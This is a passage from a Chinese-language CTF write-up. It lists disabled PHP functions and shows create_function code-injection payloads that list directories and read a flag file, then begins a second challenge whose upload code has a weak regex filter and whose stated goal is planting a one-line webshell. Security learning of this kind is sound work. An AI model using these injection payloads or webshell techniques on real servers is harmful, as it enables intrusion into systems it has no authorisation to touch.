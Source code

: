 ```php
system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,
mb_send_mail,dl,set_time_limit,ignore_user_abort,symlink,link,error_log
```

那直接用 php 的文件操作函数

```php
/?action=\create_function&arg=}print_r(scandir(dirname(__FILE__)."/../"));//

var_dump(glob("/var/www/*"));  // 也可以
```

![屏幕捕获_2019_03_03_20_24_07_84](C:\Users\wywwzjj\Documents\oCam\屏幕捕获_2019_03_03_20_24_07_84.png)

查看 flag
```php
&arg=}print_r(file_get_contents('../flag_h0w2execute_arb1trary_c0de'));//
```

![屏幕捕获_2019_03_03_20_26_02_799](C:\Users\wywwzjj\Documents\oCam\屏幕捕获_2019_03_03_20_26_02_799.png)



## 2.easy - pcrewaf

> PHP 正则特性

```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
} 
```

#### 目标

写入一句话后门。

